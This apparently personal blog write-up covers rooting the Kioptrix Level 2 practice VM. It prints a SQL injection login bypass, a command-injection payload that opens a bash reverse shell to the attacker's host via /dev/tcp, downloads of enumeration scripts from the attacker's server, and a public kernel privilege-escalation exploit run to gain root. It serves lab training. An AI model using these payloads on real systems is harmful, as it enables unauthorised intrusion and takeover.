 ```yaml
---
title: "Kioptrix Lvl 1 Writeup"
layout: post
date: 2017-05-04
image: /assets/images/markdown.jpg
headerImage: false
tag:
- Writeup
- Pentest
category: blog
author: marioibarra
description: Kioptrix lvl 1 Writeup
---
```


## Kioptrix Level 2

I begin with the usual netdiscover and nmap scan of the target.

<figure class="highlight"><pre><code class="nohighlight" data-lang="bash"><span style="color:red">mario@kali</span>:~# netdiscover -r 192.168.8.0/24


 Currently scanning: Finished!   |   Screen View: Unique Hosts                 
                                                                               
 4 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 240               
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.75.1    00:50:56:c0:00:08      1      60  Unknown vendor              
 192.168.75.2    00:50:56:f2:c5:e6      1      60  Unknown vendor              
 192.168.75.129  00:0c:29:4e:f5:c2      1      60  Unknown vendor              
 192.168.75.254  00:50:56:fb:35:c9      1      60  Unknown vendor 
</code></pre></figure>




<figure class="highlight"><pre><code class="nohighlight" data-lang="bash"><span style="color:red">mario@kali</span>:~/oscp/exam/192.168.75.129$ cat 192.168.75.129.nmap 
# Nmap 7.50 scan initiated Wed Jul 12 01:14:25 2017 as: nmap -sV -O -oN /home/mario/oscp/exam/192.168.75.129/192.168.75.129.nmap 192.168.75.129
Nmap scan report for 192.168.75.129
Host is up (0.00023s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
111/tcp  open  rpcbind  2 (RPC #100000)
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
631/tcp  open  ipp      CUPS 1.1
3306/tcp open  mysql    MySQL (unauthorized)
MAC Address: 00:0C:29:4E:F5:C2 (VMware)
Device type: general purpose|media device
Running: Linux 2.6.X, Star Track embedded
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:2.6.23 cpe:/h:star_track:srt2014hd
OS details: Linux 2.6.9 - 2.6.30, Star Track SRT2014HD satellite receiver (Linux 2.6.23)
Network Distance: 1 hop

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jul 12 01:14:43 2017 -- 1 IP address (1 host up) scanned in 18.45 seconds
</code></pre></figure>


Port 80 looks like an easy target and it could possibly have a mysql database on the web service.
![image](/assets/images/kioptrixlvl2/index.png)

Probing a SQL injection, I used the username "admin" and the password "' OR '1'='1".  The injection worked and I gained access to an admin web console.
![image](/assets/images/kioptrixlvl2/sql-injection.png)

This console looks like it's vulnerable to command injection...

I leave a netcat listener on port 8080 open while I attempt to open a bash shell using: "ping 192.168.75.129; bash -i >& /dev/tcp/192.168.75.135/8080 0>&1" on the admin console.
<figure class="highlight"><pre><code class="nohighlight" data-lang="bash"><span style="color:red">mario@kali</span>:~$ nc -lvp 8080
listening on [any] 8080 ...
192.168.75.129: inverse host lookup failed: Unknown host
connect to [192.168.75.135] from (UNKNOWN) [192.168.75.129] 32770
bash: no job control in this shell
bash-3.00$ whoami
apache
bash-3.00$ uname -a
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux
bash-3.00$ lsb_release -a
LSB Version:	:core-3.0-ia32:core-3.0-noarch:graphics-3.0-ia32:graphics-3.0-noarch
Distributor ID:	CentOS
Description:	CentOS release 4.5 (Final)
Release:	4.5
Codename:	Final
bash-3.00$  
</code></pre></figure>

A bash shell with apache privileges opened so I searched for ways to escalate privileges.

I setup a python http server on my machine and I downloaded a Linux enumeration script on the target machine in the /var/tmp directory since its writeable.

<figure class="highlight"><pre><code class="nohighlight" data-lang="bash"><span style="color:red">mario@kali</span>:~/oscp/exam/192.168.75.129/privesc$ python -m SimpleHTTPServer 8081
Serving HTTP on 0.0.0.0 port 8081 ...
</code></pre></figure>

<figure class="highlight"><pre><code class="nohighlight" data-lang="bash">
bash-3.00$ wget http://192.168.75.135:8081/LinEnum.sh 
--02:03:18--  http://192.168.75.135:8081/LinEnum.sh
           => `LinEnum.sh'
Connecting to 192.168.75.135:8081... connected.
HTTP request sent, awaiting response... 200 OK
Length: 43,283 (42K) [text/x-sh]

    0K .......... .......... .......... .......... ..        100%    2.87 MB/s

02:03:18 (2.87 MB/s) - `LinEnum.sh' saved [43283/43283]
bash-3.00$ chmod 700 LinEnum.sh
bash-3.00$ wget http://192.168.75.135:8081/linprivchecker.py
--02:12:10--  http://192.168.75.135:8081/linprivchecker.py
           => `linprivchecker.py'
Connecting to 192.168.75.135:8081... searonnected.
HTTP request sent, awaiting response... 200 OK
Length: 25,308 (25K) [text/plain]

    0K .......... .......... ....                            100%    1.03 MB/s

02:12:10 (1.03 MB/s) - `linprivchecker.py' saved [25308/25308]

bash-3.00$ chmod 700 linprivchecker.py
bash-3.00$ python linprivchecker.py
</code></pre></figure>

No luck after searching for exploits so I went to my last resort and searched for kernel exploits.  I found one matching "Linux 2.6 centos 4.5" so I tested it.


<figure class="highlight"><pre><code class="nohighlight" data-lang="bash"><span style="color:red">mario@kali</span>:~/oscp/exam/192.168.75.129/privesc$ searchsploit -m 9542
Exploit: Linux Kernel 2.6 < 2.6.19 (White Box 4 / CentOS 4.4/4.5 / Fedora Core 4/5/6 x86) - 'ip_append_data()' Ring0 Privilege Escalation (1)
    URL: https://www.exploit-db.com/exploits/9542/
   Path: /usr/share/exploitdb/platforms/lin_x86/local/9542.c

Copied to '/home/mario/oscp/exam/192.168.75.129/privesc/'
</code></pre></figure>




<figure class="highlight"><pre><code class="nohighlight" data-lang="bash">bash-3.00$ wget http://192.168.75.135:8081/9542.c
--23:45:04--  http://192.168.75.135:8081/9542.c
           => `9542.c'
Connecting to 192.168.75.135:8081... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2,645 (2.6K) [text/plain]

    0K ..                                                    100%  360.35 MB/s

23:45:04 (360.35 MB/s) - `9542.c' saved [2645/2645]

bash-3.00$ ls
1397
1397.c
9542.c
LinEnum.sh
linprivchecker.py
bash-3.00$ gcc -o 9542 9542.c && ./9542  
sh: no job control in this shell
sh-3.00# whoami
root
sh-3.00# 
</code></pre></figure>


It wasn't too bad getting root, but I did spend alot of time trying to use other exploits that weren't on the kernel.